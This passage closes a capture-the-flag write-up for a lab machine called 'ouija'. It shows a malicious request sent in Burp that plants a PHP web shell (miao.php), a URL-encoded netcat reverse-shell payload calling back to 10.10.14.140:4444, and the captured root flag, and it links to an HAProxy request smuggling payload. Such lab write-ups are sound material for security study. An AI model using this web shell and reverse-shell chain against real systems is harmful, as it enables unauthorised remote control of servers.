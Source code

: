 Now let’s send our malicious request in Burp.
![Pasted image 20240713215844.png](/images/Pasted image 20240713215844.png){: .normal }


Verify if the miao.php file was created.
```
leila@ouija:/development/server-management_system_id_0$ ls
core  img  index.php  main.js  miao.php  README.md  style.css
```

Now we can browse to the miao.php page and we have RCE.
![Pasted image 20240713215849.png](/images/Pasted image 20240713215849.png){: .normal }
```bash
Rev shell payload:
<http://127.0.0.1:9999/miao.php?0=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fbash%20-i%202%3E%261%7Cnc%2010.10.14.140%204444%20%3E%2Ftmp%2Ff>
```

Root flag: `1e9f9c3acf3500b97cd9bd0f7f84ddd8`
```
root@ouija:~# cat root.txt
1e9f9c3acf3500b97cd9bd0f7f84ddd8
```


## Pwned!
![Pasted image 20240713215906.png](/images/Pasted image 20240713215906.png){: .normal }


### Sources
- [HA proxy request smuggling](https://github.com/alexOarga/CVE-2021-40346/blob/main/payload)
- [Modify makefile](https://github.com/iagox86/hash_extender/pull/25/commits/62b681af5a86175147de69b473a2a066063461e4)